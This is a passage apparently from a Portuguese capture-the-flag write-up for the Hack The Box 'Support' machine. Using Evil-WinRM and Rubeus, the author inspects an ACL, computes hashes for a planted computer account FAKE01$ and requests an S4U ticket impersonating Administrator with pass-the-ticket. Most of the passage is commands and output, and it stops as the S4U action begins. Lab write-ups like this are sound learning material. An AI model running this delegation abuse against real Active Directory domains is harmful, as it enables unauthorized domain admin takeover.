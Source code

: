 ​	Para mostrar a lista de permissões de acesso do objeto (**DiscretionaryAcl: {System.Security.AccessControl.CommonAce}**) podemos usar o seguinte comando:

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> $Descriptor.DiscretionaryAcl

BinaryLength       : 36
AceQualifier       : AccessAllowed
IsCallback         : False
OpaqueLength       : 0
AccessMask         : 983551
SecurityIdentifier : S-1-5-21-1677581083-3380853377-188903654-5601
AceType            : AccessAllowed
AceFlags           : None
IsInherited        : False
InheritanceFlags   : None
PropagationFlags   : None
AuditFlags         : None
```

​	Com isso, podemos ver que o **SID** é o **SID** do computador **FAKE01** e que o **AceType** está com o valor **AccessAllowed**.

​	Agora, utilizamos o **Rubeus** para pegar a hash **rc4_hmac** do usuário **FAKE01$**.

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> ./Rubeus.exe hash /password:123456 /user:fake01$ /domain:support.htb

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : 123456
[*] Input username             : fake01$
[*] Input domain               : support.htb
[*] Salt                       : SUPPORT.HTBhostfake01.support.htb
[*]       rc4_hmac             : 32ED87BDB5FDC5E9CBA88547376818D4
[*]       aes128_cts_hmac_sha1 : 4799D0F80833802EE7F1412BD30DCD5C
[*]       aes256_cts_hmac_sha1 : 35CE465C01BC1577DE3410452165E5244779C17B64E6D89459C1EC3C8DAA362B
[*]       des_cbc_md5          : 836D4C85A4F23B62
```

​	Com o hash obtido, podemos gerar um ticket para o usuário **Administrator**.

```powershell
*Evil-WinRM* PS C:\Users\support\Documents> ./Rubeus.exe s4u /user:FAKE01$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0

[*] Action: S4U
```